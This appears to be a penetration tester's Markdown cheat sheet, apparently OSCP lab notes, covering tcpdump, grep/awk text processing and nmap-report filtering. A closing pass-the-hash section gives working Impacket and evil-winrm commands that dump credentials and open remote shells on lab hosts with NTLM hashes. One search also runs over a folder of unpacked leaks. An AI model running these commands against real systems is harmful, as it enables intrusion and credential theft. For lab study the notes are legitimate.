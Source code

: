 ## TCPDUMP 
- capture traffic from specific port:  
  `tcpdump -s 0 port ftp or ssh -i eth0 -w mycap.pcap`  
  `tcpdump -s 0 port 3389 -i eth0 -w mycap.pcap`  

## Searching stuff
- search folder and subfolders for a string, output results and save results to file:   
  `grep -ria @emaildomain.com /mnt/leaks_unpacked/ | tee /root/Desktop/85390/search_emaildomain.out` 
- searching the home directories on linux:  
  `ls -ahlR /home `  
- get full path to file  
  `realpath key.pem`  
- Comparison: get all entries of file2 with are not already in file1:  
  `awk 'FNR==NR{a[$0]=1;next}!($0 in a)' file1 file2`  
- get all unique entries from multiple files and save them to new file:  
  `awk '!a[$0]++' folderwithfiles/* > uniqueentries.txt`  
- find all files with specific ending (recursive) and copy them to a target directory:  
  `find ./ -name "*.burp" -ls -exec cp {} /mnt/hgfs/transfer/targetfolder/ \;`  
  `./` --> means from the current directory and subfolders  
  `-exec` --> with the results from the find command (being {} ), execute the following command  
- Get specific lines of nmap report, e.g. systems with specific port open:  
  `cat TCP-SYN-scan_11-06-19_02-45-50.txt | grep -E "Nmap scan report for|445/tcp open"`  
  `cat nmap_SYN_scan_TCP_TOP_100.nmap | grep -E "Nmap scan report|open" | grep -B1 open`  
- If number of spaces between port and status is different: (Note: there is a space between the brackets!)  
  `cat TCP-SYN-scan_11-06-19_04-59-05.txt | grep -E "80/tcp[ ]+open"`  
- Get last two regex occurences of string, e.g. to return only "domain.topleveldomain" from a long list which includes subdomains:  
  `grep -E "[A-Za-z0-9\-]+\.[A-Za-z0-9\-]+$" --color -o urls.txt | sort -u`  
- another method:  
  `cat domains.txt | rev | cut -d. -f 1-2 | rev`  
- get client IPs from apache access.log and group them:  
  `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`  

## Creating lists
- add domain name to the beginning of each user in a users.txt file:  
  `# sed -e 's/^/THINC\\/' /root/Desktop/OSCP/usernames.txt > /root/Desktop/OSCP/domainusers.txt`  

## Pass-the-Hash techniques
- Dump creds with Impacket:  
  `secretsdump.py ralph/user1@10.11.1.31 -hashes aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f`  
- open cmd.exe on remote target with known hash:  
  `/usr/share/doc/python-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:175a592f3b0c0c5f02fad40c51412d3a Administrator@10.11.1.202 cmd.exe`  
- Open remote connection with known hash using wmiexec:  
  `wmiexec.py ralph/user1@10.11.1.31 -hashes aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f`  
- connect to target with evil-winrm:   
  `evil-winrm -i <IP> -u <username> -H <ntlm hash>`   
